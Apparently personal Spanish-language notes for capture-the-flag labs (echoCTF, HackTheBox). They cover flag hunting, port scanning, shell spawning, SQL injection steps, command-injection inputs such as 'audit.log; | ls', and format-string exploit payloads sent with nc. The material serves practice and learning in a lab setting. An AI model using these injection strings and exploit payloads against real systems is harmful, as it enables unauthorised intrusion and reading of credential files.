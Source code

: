 ### Ubicaciones flags echoctf:
- /etc/passwd (System)
- Interacción con servicios (Servicios encontrados en puertos raros, no convencionales).
- **En aplicaciones Web** 
	- ETSCTF.html (.php,.txt...) 
	- Headers
	- Código fuente (.html, .css, .js)
	- Titulos de las paginas
	- robots.txt
	- Ruta despues de realizar fuzzing
	- Directorio de WebApp (extensiones .php) `grep -iRl "ETSCTF"`
	- Revisar el código fuente de los archivos en el directorio de la WebApp (pueden haber banderas comentadas que no se muestran)
- /home/ETSCTF o /home/ETSCTF_FLAG
- Archivos de configuración (`*.conf`, por lo general en /etc/)
- Bases de datos `mysql`.
- Root 
	- /root
	- /etc/shadow (Flag de System)
	- env
``` Bash
env
# El comando Strings pudiera no estar disponible
strings /proc/1/environ 2>/dev/null | grep ETSCTF 
strings /proc/*/environ | grep ETSCTF 2>/dev/null
```
- **Último recurso**
	- `find / -name ETSCTF.* 2>/dev/null`
	-  `grep -iRl "ETSCTF" /`
*Nota: Las variables de entorno cambian de acuerdo al usuario, se pueden buscar en procesos o subprocesos, pero por lo general corresponden al usuario root*
##### Protip
### Checklist en equipo
- Maquinas resueltas.
- Partes revisadas (Para evitar rabbit holes)
- Sospechas de vulnerabilidad.
- Doble/triple chequeo.
- Compendio de contraseñas encontradas/crackeadas para hacer password spraying

### Comandos con kali chipeado
[Kali chipeado de SrRéquiem](https://gist.github.com/srrequiem/46631335f7a5a950c85a55a12dadaf56)

`new_target tutorial <IP>`

##### Escaneo 
`nmap -T5 -vvv -open -p- -n -Pn -oG nmap/all_ports <target>` 

`-n` - Sin resolución DNS

`sudo nmap -sS --min-rate 5000 -vvv -open -p- -n -Pn -oG nmap/all_ports <target>`

`extract_ports nmap/all_ports`

Los puertos se obtienen del resultado obtenido en extract_ports
`nmap -sCV -p <puertos> -Pn -oN nmap/targeted <target>`

``` Python
# Spawnear una shell en tutorial101 de EchoCTF
import pty
pty.spawn("/bin/bash")
```

`rlwrap nc <IP> <PORT>` - Poder usar el cursor y el ctrl + v

1. Identificar que existe un SQLi provocando el error `1'`.
2. Identificar cuantas columnas tiene la tabla actual.
3. Identificar cuales de las columnas permiten desplegar strings. `union select 'a','a','a'`.
4. (`SELECT name FROM sqlite_schema WHERE type='table' ORDER BY name`)

Paginas confiables 
- ExploitDB
- GitHub
- Rapid7

### Checks manuales
- `sudo -l`
	- Necesitamos la contraseña del usuario
- Buscar contraseñas expuestas en el directorio.
- Utilizar `netstat -ano` para comprobar las conexiones que estan esperando así como las que ya estan establecidas.

### Spawn Shell STTY
[PayloadsAllTheThings/Reverse Shell Cheatsheet.md at master · swisskyrepo/PayloadsAllTheThings (github.com)](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#spawn-tty-shell)

Por lo general truena la shell de nuestra máquina una vez que cerramos la remota.
# Trace ICMP
- `ping -c 1 <IP>`
- https://subinsb.com/default-device-ttl-values/
```
# /ETC/HOST
# VIRTUAL HOST ROUTING HTB
IP  DOMAIN NAME
10.0.10.12 http://help.htb
```


Es común en los retos encontrarse una matrioshka con distintos tipos de compresión.

# inject
Nos encontramos con un cat simulado, nuestra entrada la incluye dentro de comillas: 
- `cat 'audit.log; | ls'`
- `cat '\;ls'`
- \` ls \` 
- https://owasp.org/www-community/attacks/Command_Injection
- https://forum.hackthebox.com/t/problem-in-upgrading-a-reverse-shell-to-stable-tty-shell/243563

# Ginx
Seguir las instrucciones. Empezando por visitar el código fuente.

- Si queremos ver cabeceras utilizamos netcat
- Con un servidor apache
- `| xclip -sel c`

# bleed

Cargado de las liberias dinámicas, la diferencias es el peso del binario

[Linux Privilege Escalation - HackTricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#ld_preload-and-ld_library_path)

## brute
La seed usada es el timestamp de Greece

Si tenemos la seed es posible generar los mismos numeros con random.

En este caso la implementación del chall es en lenguaje C, entonces buscando la implementación, después de darle los valores obtenemos la password perfectamente.

# stringer
Se trata de un format string attack

6th address to reach stack data.

`echo $(printf "\xf0\x87\x04\x08).%6$x | nc -u <IP> <PORT>"`

Si especificamos la dirección en la que vamos a sobrescribir, al llegar a su dirección la modificamos con `%n`. 
- Por ejemplo, los datos se encuentran en la dirección 6:
```Bash
echo $(printf "\xf0\x87\x04\x08").%x.%x.%x.%x.%x.%n | nc -u <IP> <PORT>
```
Si se quiere modificar con un valor predeterminado cuenta el número de caracteres antes de la dirección entonces si queremos cargar el número 10 utilizamos (los siguientes valores son en decimal):
- %n escribe el número de bytes, en la memoria, antes de llegar a la dirección
- %n escribe el número de caracteres que ya fueron impresos en la variable
- `printf("blah %n",&val); // val = 5`
- 4 de printf
- 4 ochos
- 4 + 4 + x = 10
- x = 2
```Bash
echo $(printf "\xf0\x87\x04\x08").%8x.%8x.%8x.%8x.%2x.%n | nc -u <IP> <PORT>
```

- Tenemos una pila con valores estaticos
- Cuando no se formatea correctamente(`printf("%s",var)`), tenemos acceso a la primera parte (`printf(var)`)
- Es un binario de 64 bits
- ASLR activado debido a que cambia la primera dirección cada vez que se ejecuta.


[Format String Vulnerability Exploit in SeedLab | Information Security | printf("hello world"); - YouTube](https://www.youtube.com/watch?v=uOndsw3008M)

[Format String to dump binary and gain RCE - 33c3ctf ESPR (pwn 150) - YouTube](https://www.youtube.com/watch?v=XuzuFUGuQv0)

[PWN Echoland challenge — HTB. Writeup includes — Blind Format String… | by Karol Mazurek | Medium](https://karol-mazurek95.medium.com/pwn-echoland-challenge-htb-3363dbd6dc23)
[DefCamp Qualifiers 2019: get-access (faraz.faith)](https://faraz.faith/2019-09-08-defcamp-get-access/)
[blind attack:HITB-XCTF Quals 2018 - babypwn | 上善若水 (introspelliam.github.io)](https://introspelliam.github.io/2018/04/20/blind-attack-HITB-XCTF-Quals-2018-babypwn/)

## smithers
- Para evitar que echo nos añada un enter al final
- `echo -n <IP>`


- Cuando se tiene un JSESSIONID se trata de un tomcat.